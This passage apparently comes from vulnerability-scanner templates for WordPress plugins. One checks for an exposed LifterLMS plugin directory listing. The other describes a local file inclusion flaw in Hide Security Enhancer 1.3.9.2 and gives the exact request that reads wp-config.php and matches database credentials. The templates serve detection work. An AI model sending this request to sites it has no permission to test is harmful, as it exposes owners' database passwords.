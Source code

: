 ## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/lifterlms/

### Matchers

**Type - word**

- words
  1. Index of
  2. /wp-content/plugins/lifterlms/
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Hide Security Enhancer 1.3.9.2 Local File Inclusion

## Description

- WordPress Hide Security Enhancer version 1.3.9.2 or less is susceptible to a local file inclusion vulnerability which could allow malicious visitors to download any file in the installation.
- severity - high
- tags - wordpress,wp-plugin,lfi,wp

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/wp-hide-security-enhancer/router/file-process.php?action=style-clean&file_path=/wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and
